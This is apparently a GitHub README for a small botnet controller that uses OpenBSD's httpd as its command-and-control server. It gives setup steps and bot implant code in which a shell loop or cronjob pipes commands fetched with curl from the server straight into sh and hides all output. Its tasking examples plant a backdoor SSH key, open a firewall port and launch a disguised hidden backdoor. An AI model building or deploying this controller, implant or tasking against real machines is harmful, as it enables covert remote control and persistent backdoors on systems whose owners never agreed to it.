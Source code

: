 [OpenBSD `httpd(8)`](https://man.openbsd.org/httpd.8) Botnet Controller
-----------------------------------------------------------------------------------
A cheesy botnet controller which uses
[OpenBSD's `httpd(8)`](https://man.openbsd.org/httpd.8) to do the
heavy lifting.

Meant to demonstrate what just a little code can do.

It consists of three parts:
1.  A shell script to watch `/var/www/logs/access.log` for the purposes of...
    1.  Noting when bots call back
    2.  Deleting picked-up tasking
2.  Another shell script to add a task for a bot
3.  This README, with [setup instructions](#Setup)

For legal use only.

Features
--------
- Fewer than 100 lines of code.
- Comms over HTTP(s).
- Integration with existing [`http.conf`](https://man.openbsd.org/httpd.conf.5) files.
- Deletion of tasks sent to bots.
- No command output which causes mental clutter.  Or any output at all.
- No new syntax to learn; everything is done with normal shell things.
- Possible but untested portability to HTTP servers on other OSs.
- [Tests](./t), and a very complex [Makefile](./Makefile) to run them.

Setup
-----
1.  Create a group for botnet operators.  Alternatively, don't and adjust the
    rest of the steps accordingly.
    ```sh
    doas groupadd botnet
    doas usermod -G botnet $(whoami)
    ```
    Logout and login so new group takes effect.  Use `id` to verify.  It should
    look something like
    ```
    uid=1000(you) gid=1000(you) groups=1000(you), 1001(botnet)
    ```
2.  Create a directory for storing and serving tasking
    ```sh
    doas mkdir -p /var/www/htdocs/httpd_botnet_controller
    doas chgrp botnet /var/www/htdocs/httpd_botnet_controller
    doas chmod g=rwx /var/www/htdocs/httpd_botnet_controller
    ```
    And make sure all went well by adding and removing a file.
    ```sh
    touch /var/www/htdocs/httpd_botnet_controller/test &&
    rm -v /var/www/htdocs/httpd_botnet_controller/test
    ```
3.  Add a line in whatever chunk of
    [`httpd.conf`](https://man.openbsd.org/httpd.conf.5) will serve
    up our new tasking directory to serve an empty file instead of the default
    404 page if there's no tasking.
    ```
   	location not found match "/(httpd_botnet_controller)/.*" {
		request rewrite "/%1/_empty"
	}
    ```
    With the default config (i.e. the one from `/etc/examples/httpd.conf`) this
    will probably be in a `server {}` block
4.  Make the empty file to serve.
    ```sh
    touch /var/www/htdocs/httpd_botnet_controller/_empty
    ```
5.  Clone this repository and start the controller going.  
    ```sh
    git clone git@github.com:magisterquis/httpd_botnet_controller.git
    cd httpd_botnet_controller
    make # To run tests, optional
    ./httpd_botnet_controller.sh
    ```
Everything's set up.  Head down to the [Bots](#Bots) section to get bots going.

Bots
----
Bot interactions are governed by the following principles.

1.  Each bot has its own ID consisting of letters, numebers, dots, and hyphens.
    Hostnames work pretty well.
2.  Tasking is retrieved via HTTP(S) requests to
    `/httpd_botnet_controller/$ID` which serve up files from 
    `/var/www/htdocs/httpd_botnet_controller/$ID`.  What the bot does with the
    tasking is the bot's own business.
3.  When `httpd(8)` logs that a bot has requested tasking, a file in
    `$HOME/bots` is touched and `/var/www/htdocs/httpd_botnet_controller/$ID`
    is deleted.  This is inherently racy; make sure bots don't request tasking
    too often.

### Bot Code

In practice, this works out to bots being a little script like
```sh
#!/bin/sh
SERVER=https://your_server
while :; do
    curl -s $SERVER/httpd_botnet_controller/$(hostname) | sh >/dev/null 2>&1 &
    sleep 600 
done
```
or maybe a cronjob like
```cron
~/10    *   *   *   *   curl -s $SERVER/httpd_botnet_controller/$(HOSTNAME) | sh >/dev/null 2>&1 &
```

Output is up to you.

### Bot List
IDs of bots which have called back are stored in `$HOME/bots`.  These can be
sorted and filtered and so on with the customary shell tools.

Tasking
-------
Tasking takes the form of files in `/var/www/htdocs/httpd_botnet_controller/`
with the name of the bots` IDs.

Instead of manually making files in `/var/www/htdocs/httpd_botnet_controller/`,
the script [`task_bot.sh`](./task_bot.sh) may be used.  It takes as its first
argument the ID for which to queue tasking and the remaining arguments are
appended to the tasking file as a single line.  If there's no other arguments
stdin is appended to the tasking file. 

This works out to something like either
```sh
./task_bot.sh bot_1 cat <~/.ssh/ak.bak >>~/.authorized_keys
```
to add back a backup backdoor key or
```sh
./task_bot.sh bot_2 <<_eof
bash <<<'
iptables -I INPUT -p tcp --dport 44444 -j ACCEPT
exec -a not_malware /root/.hidden_backdoor' >/dev/null 2>&1 &
_eof
```
to reopen a in the firewall and start expertly hidden malware.

Config
------
The following environment variables configure both scripts:

Name           | Default                          | Description
---------------|----------------------------------|------------
`CHECKIN_PATH` | `httpd_botnet_controller`        | URL Path used for checking-in, followed by `/$ID`
`HTTPDLOGFILE` | `/var/www/logs/access.log`       | `httpd(8)`'s logfile
`LAST_DIR`     | `$HOME/bots`                     | Directory in which bots' last check-ins are noted as empty files
`TAILFLAGS`    | `-f -n -0`                       | Flags used by [`tail(1)`](https://man.openbsd.org/tail.1) for watching `$HTTPDLOGFILE`
`TASKING_DIR`  | `/var/www/htdocs/$CHECKIN_PATH}` | Directory in which tasking lives
